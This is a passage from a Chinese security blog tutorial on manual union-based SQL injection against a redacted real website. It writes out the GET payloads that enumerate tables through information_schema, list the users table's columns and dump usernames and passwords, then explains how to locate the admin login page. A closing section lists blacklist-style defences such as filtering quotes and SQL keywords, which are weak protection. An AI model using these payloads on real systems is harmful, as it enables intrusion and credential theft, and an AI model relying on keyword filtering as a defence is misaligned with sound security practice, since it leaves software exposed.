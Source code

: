 输出结果如下：
![](https://img-blog.csdn.net/20170730003636422)
(3)GET http://xxxxx/worldmap/view/prefix/**CNab')+union+all+**
**select+1,2,3,4,5,group_concat(distinct+table_name),7,8+from+**
**(select+table_name+from+information_schema.tables+**
**where+table_schema=database()+limit+100,20)+as+sub\#**HTTP/1.1
依次从limit 20,20、limit 40,20、limit 100,20进行获取，最好发现登录表为users。
重点：登陆表users

**7.数据库获取登录表字段 columns**
获取登录表的字段，使用SQL语句：
select group_concat(distinct+column_name) from
information_schema.columns where table_name='users';
本地数据库运行结果如下所示：

![](https://img-blog.csdn.net/20170730004117651)
(1)GET http://xxxxx/worldmap/view/prefix/**CNab')+union+all+**
**select+1,2,3,4,5,group_concat(distinct+****column_name****),7,8+from+**
**information_schema.columns+where+****table_name='users****'****\#**HTTP/1.1
对应的MySQL语句，table_name、tables表示表名：
select1,2,3,4,5,group_concat(distinct+tcolumn_name),7,8from
information_schema.columns where table_name='users';
输出结果如下图所示：
![](https://img-blog.csdn.net/20170730004631361)
重点：用户名字段username、密码password。
**8.数据库返回用户名和密码**
(1)GET http://xxxxx/worldmap/view/prefix/CNab')+union+all+
select+1,2,3,4,5,group_concat(distinct+**username,****0x2b****,**
password,0x2b,vozrast),7,8+from+users\#HTTP/1.1
对应的MySQL语句，table_name、tables表示表名：
selectgroup_concat(distinct+username,0x2b,password,0x2b,vozrast)from users;
点击"Run to completion"按钮输出结果如下图所示，0x2b表示加号，如果获取更多用户名和密码，你可以自己思考下？

![](https://img-blog.csdn.net/20170730005208790)

**9.登录系统**
登录怎么找到登录页面呢？照网站后台的方法：
方法一：一定用谷歌搜索，admin、login、system、manage、user等关键词；
方法二：配置文件robots.txt，网页链接等；
方法三：扫描目录，通过一些工具。

![](https://img-blog.csdn.net/20170730005737419)
然后登录即可。

## 三. 数据库防御措施
真正的困难在于如何找到一个存在漏洞的网站，如何去防护。现在很多网站都应做好相关防御措施，手工SQL注入是没有反应的，但是找到漏洞后，再利用SQLMAP就能够找到相应的用户名和密码。
参考前文，个人理解的防御措施：
1.在URL设置不允许非法字符，如单引号、等号、注释--、减号，提示非法参数；
2.在URL设置不允许SQL常见的关键词，如and、select、or、insert等；
3.传递的id=115参数必须为数字才能正常跳转，否则跳转错误；
4.服务器启用SQL注入拦截功能，提示当前网页的 URL / POST / COOKIES中包含了特定的 SQL字符而被防火墙拦截，因为可能通过POST、Cookies进行攻击，各方面都需要做到防御。
5.可以使用[js](http://lib.csdn.net/base/javascript)在客户端进行不安全字符屏蔽，也可以在jsp中调用该函数检查是否包函非法字符，或使用正则表达式过滤传入的参数，防止SQL从URL注入。
希望文章对你有所帮助，尤其是网络安全的程序员，因为系列文章是和前文息息相关的，所以看着有些凌乱。如果文章存在错误或不足之处，还请海涵。感谢娜师傅的一路陪伴，学中文的扔掉了手中的尤克里里，教我写代码也是很疯狂的啊，哈哈！不忘初心，继续前行。加油，秀璋。绿妖，晚安！
(By:Eastmount 2017-07-30 深夜1点[http://blog.csdn.net/eastmount/](http://blog.csdn.net/eastmount/))




